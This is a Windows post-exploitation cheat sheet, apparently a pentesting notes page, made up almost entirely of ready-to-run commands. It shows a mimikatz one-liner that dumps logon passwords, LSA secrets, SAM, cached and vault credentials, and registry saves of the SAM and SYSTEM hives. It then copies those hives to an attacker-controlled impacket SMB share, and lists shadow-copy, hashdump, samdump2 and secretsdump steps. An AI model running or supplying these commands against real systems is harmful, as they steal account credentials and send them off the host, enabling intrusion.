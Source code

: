 #### evil-winrm
```
evil-winrm -i <ip> -u <user> -p <password>
```

## Exploitation

### Cached Credential Storage and Retrieval
```
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "vault::cred /patch" "exit"
```

### Extracting hashes
#### Intro
SAM - Security Account Manager (Store as user accounts)  %SystemRoot%/system32/config/sam  
NTDS.DIT (Windows Server / Active Directory - Store AD data including user accounts) %SystemRoot%/ntds/ntds.dit  
SYSTEM (System file to decrypt SAM/NTDS.DIT)  %SystemRoot%/system32/config/system  
Backup - Sistemas antigos como XP/2003: C:\Windows\repair\sam and C:\Windows\repair\system

### Get sam and system by registry (From old versions to recent versions)
```cmd win
reg save hklm\sam <ip>.sam
reg save hklm\system <ip>.system
```
  transfer .sam and .system by SMB
```sh 
# kali
impacket-smbserver share . -smb2support -user user -password test123
```
```cmd
# windows
net use \\<smbserver>\share /USER:user test123
copy C:\Users\Backup\sam.hive \\<smbserver>\share\
copy C:\Users\Backup\system.hive \\<smbserver>\share\
```
  View smb enumeration  
```
net view \\dc /all
net use * \\dc\c$
net use
```

### Volume shadow copy (Windows Server \ recent versions)
  vssadmin  
```
vssadmin create shadow /for=c:
```
  meterpreter  
```
hashdump
```
  samdump2 (Win 2k/NT/XP/Vista SAM)   
```
samdump2 system sam
```
  impacket-secretsdump  
```
impacket-secretsdump -sam sam -system system LOCAL
```
